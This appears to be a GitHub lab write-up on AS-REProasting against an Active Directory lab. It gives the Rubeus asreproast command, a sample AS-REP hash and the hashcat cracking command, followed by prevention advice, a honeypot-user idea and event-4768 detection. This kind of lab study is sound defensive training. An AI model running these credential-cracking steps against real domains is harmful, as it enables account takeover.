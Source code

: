 # AS-REProasting Lab

## Objective

Perform a AS-REProasting attack on the Windows 10 machine and obtain crackable hashes, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

The AS-REProasting attack is similar to the Kerberoasting attack; we can obtain crackable hashes for user accounts that have the property Do not require Kerberos preauthentication enabled. The success of this attack depends on the strength of the user account password that we will crack.

## Skills Learned
- Run a AS-REProasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with Hashcat

## Tools Used
- Windows Event Log
- Hashcat
- Rubeus
- Kali Linux

## Steps

First we need to RDP over to our WIN10 machine and perform the AS-REProasting attack. I will be using Rubeus for this attack.

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```
![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/97415255-a4d8-4b43-b6ed-4fd0857a0fae)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f99d943e-91bd-447b-8f93-347f72ebe310)

Now we have our file to crack we need to get this file back over to our Kali box. 

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$ we can edit the file usim Vim on the kali command line. 

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/962602f8-05a3-455e-b311-ea4664341b78)

We can now run this file trough hashcat

```
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/465e6765-7ec9-4287-8cc7-d2c897dc1225)

Once hashcat cracks the password, we can print the contents of the output file to obtain the cleartext password

```
sudo cat asrepcrack.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f611dd48-cad7-4cae-9ec0-f8810a76f226)


## Prevention

The success of attacks on users with "Do not require Kerberos preauthentication" depends on password strength. This property should be used only when necessary, and accounts should be reviewed quarterly to ensure it isn't improperly assigned. Regular user accounts with this property often have weaker passwords, making them easier targets than service accounts with SPNs. To protect these users, a separate password policy requiring at least 20 characters should be enforced to prevent cracking attempts.

## Detection

### HoneyPot

A honeypot user is an effective detection tool in AD environments, as any login attempts for this unused account are likely malicious and warrant inspection. However, if it's the only account with "Kerberos Pre-Authentication not required," advanced threat actors might identify it as a honeypot and avoid it. To create an effective honeypot user, ensure the account is old and appears unused, with service account passwords ideally over two years old and regular user passwords less than one year old. The account should have logins after the password change and possess some privileges to make it an attractive target for attackers.

### Investigate

When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/6a25dc6c-c2b1-421e-9927-d9e29cda4283)

AD generates this event for every Kerberos authentication, resulting in a high volume of logs. However, the source of authentication can be tracked, allowing correlation of known good logins against potential malicious activities. While inspecting specific IP addresses can be challenging, especially if users move between office locations, scrutinizing the specific VLAN and alerting on any deviations can be effective.


